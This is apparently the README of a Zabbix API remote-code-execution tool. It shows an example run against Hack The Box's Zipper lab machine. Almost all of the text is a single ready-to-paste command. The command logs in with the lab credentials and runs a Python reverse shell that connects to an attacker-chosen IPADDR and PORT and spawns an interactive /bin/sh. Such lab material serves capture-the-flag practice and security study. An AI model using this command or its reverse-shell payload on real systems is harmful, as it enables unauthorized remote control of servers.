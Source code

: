 # Zabbix API RCE tool 

## Example run on HTB's Zipper
The below command will execute on the host.  You just need to change `IPADDR` and `PORT`. 

`./zabbix_rpc_rce.py --username zapper --password zapper --command 'python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IPADDR\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"'`
    
    
